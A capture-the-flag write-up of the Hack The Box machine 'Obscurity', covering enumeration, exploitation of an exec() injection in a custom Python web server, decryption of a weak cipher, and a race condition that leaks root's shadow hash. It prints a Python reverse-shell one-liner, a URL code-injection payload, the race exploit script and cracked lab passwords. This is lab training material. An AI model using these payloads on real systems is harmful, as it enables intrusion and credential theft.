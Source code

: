 # Obscurity Writeup (HTB box)

## AUTHOR: bytevsbyte
Twitter: [@bytevsbyt3](https://twitter.com/bytevsbyt3)\
HTB Profile: [bytevsbyte](https://www.hackthebox.eu/profile/27835)

## TL;DR
This is a straightforward linux machine of 30 points on HackTheBox platform. The box has only two ports open, require a little enumeration of the web service and presents a custom web server. There are a lot of python, and it must be used along the way to get a shell on the box, to bypass some crypto and to understand what happens.

## FULL STORY
Start with the  `nmap -sC -sV -p- -T4 10.10.10.168 | tee nmap.txt` :
```
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 02 Dec 2019 15:31:58
|     Server: BadHTTPServer
|     Last-Modified: Mon, 02 Dec 2019 15:31:58
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     ...
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, not many ports open, so let's look to the web service.
It seems there's not much stuff on it and scrolling the main page to the bottom it seems there's some useful information:

![webpage](./webpage.png)

The developer talks about a file _SuperSecureServer.py_, it's important and should be memorized.
As first check it's better to look if there is some basic and guessable virtual host on the web server by changing the _Host_ header in a HTTP request.
It seems, that the server replies the same thing, it's not excluded there is another weird vhost but let's look first other paths.

Let's enumerate dirs and files of the web application.
The main page is an html page so I use it in the extensions list with, php (just because I'm not sure what the backend is really) and py, related to the script named by them.
I always add at least extensions like txt,bak,tar,zip,dat to don't miss any notes, changelog, backup and so on.\
With a scan of directories "`wfuzz -u http://10.10.10.168:8080/FUZZ -w /usr/share/wordlists/dirb/big.txt`", also with a slash appended at the end and with a list of extensions "`wfuzz -u http://10.10.10.168:8080/FUZZ.FUZ2Z -w /usr/share/wordlists/dirb/dig.txt -z list,html,php,py,txt,bak,dat`" I've found.. Nothing! No dir, no file, other than the index.html!

But, I have an important information, the name of the script.
Maybe it's inside a subdirectory of the site (I checked the root and it isn't there). Note that I filter by status code response, in general I prefer to filter on the characters count, but the name of the resource it's reflected in the response.

![wfuzz](./wfuzz_develop.png)

Ohh god it found it in the __/develop/__ folder.
The dir can't be found without appending the script's name because the server doesn't reply in a different way like with a 403 response code.
By the way grab immediately that python.. I love python. Let's dig into it and look at this piece of code (the full file is [here](./SuperSecureServer.py)).

```(python)
    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
```

Ohh an `exec`! Exec like eval is evil! It takes its argument and interprets it as python code.
The script uses it on the URL path location of the HTTP request to format the final string contained in the `info` variable, after an URL-decode.\
There's no check, and there is no doubt, this can be exploited!\
To break into the machine I use the following oneline python reverse shell:
```(python)
import pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.39",55666)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
And I encode it in base64 `echo -n '...' | base64 -w0` . Note that the packages socket,subprocess,os are already imported by the script and it can be avoided in the payload. Then I can trigger the command execution by embed the base64 of the above code in the following payload as URL of a GET request:
```
/405.html'%2bexec(__import__("base64").b64decode("PAYLOAD"))%2b'
```

Yes, this is that moment when you g0t a sh3ll!

![rce](./rce.png)

With a reverse shell as _www-data_ the next target is the __robert__ user.
Inside its directory (word readable) there are some interesting files.
The _check.txt_ is: `Encrypting this file with your key should result in out.txt, make sure your key is correct!` and it's the plaintext of _out.txt_.
The full code of the [SuperSecureCrypt.py is here](./SuperSecureCrypt.py) but I summarize the encryption step as: _p is a character in plaintext and keyChr a char in key  ==>  encrypted += chr((ord(p) + ord(keyChr)) % 255)_\
It's a modular arithmetic sum "`c=p+k mod 255`" and the decryption is "`p=c-k mod 255`".\
The user provides us the ciphertext, the plaintext and not the key. Thanks to the modular arithmetic properties from the decryption expression I have "`k = c - p mod 255`" and this means that if I use the decryption code with the plaintext, instead the key, I obtain the key! (maybe repeted n times)

```
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -d -i ./out.txt -o /tmp/.text -k "`cat check.txt`"
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file ./out.txt...
Decrypting...
Writing to /tmp/.text...
www-data@obscure:/home/robert$ cat /tmp/.text
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichai
```

Yes! The key it's __alexandrovich__ and now I use this to decrypt the _passwordreminder.txt_ file.

```(bash)
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -d -i ./passwordreminder.txt -o /tmp/.text -k "alexandrovich"
...
www-data@obscure:/home/robert$ cat /tmp/.text
SecThruObsFTW

www-data@obscure:/home/robert$ su - robert
Password: SecThruObsFTW

robert@obscure:/home/robert$
```

Ok take the _user.txt_, move to ssh and it's time of root.\
Before a linenum I check the setuid binaries and there's nothing strange, then check my sudoers permissions with `sudo -l`:

```(bash)
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Well, robert can run as root without typing any password the [BetterSSH.py](./BetterSSH.py) script, another python, nice!
The full script is readable [here](./BetterSSH.py), I put below the interesting part:

```(python)
    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)
    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

Basically, the script it is an interactive shell that requires the user to authenticate himself with credentials and like the real daemon it uses the users passwords saved on the system.
It checks if the password (hashed) provided by the user match the hash stored on the system by reading the `/etc/shadow` file.
The script saves the hashes  in a file with a random name in the `/tmp/SSH/` directory.

Summary: I can use it as root and it will successfully load the shadow file, it will load the root hash from shadow and it will save it in a temporary file that is readable and in this moment I can steal it.\
The exploit could be made in bash, or in keeping with the box theme, in python!!
This is my [exploit.py](./exploit.py), that tries to exploit the race condition:
```
#!/usr/bin/python

import glob
import time

res = glob.glob('/tmp/SSH/*')
while len(res) == 0:
    time.sleep(0.02)
    res = glob.glob('/tmp/SSH/*')
with open(res[0], 'r') as f:
    data = f.read()
    print(data)
```

![hashroot](./hashroot.png)

By taking the first hash, of the root user, it can be cracked with john and the rockyou.txt wordlist: `john -wordlist=/usr/share/wordlist/rockyou.txt tocrack`. Finally the password of root is __mercedes__ .

![root](./root.png)

r00t d4nce!

Thanks for reading! Thanks to the creator [clubby789](https://www.hackthebox.eu/profile/83743) and to Hack The Box. \
If you like this write up, or just to discuss about it write me on [twitter](https://twitter.com/bytevsbyt3).\
If there is some mistake please tell me!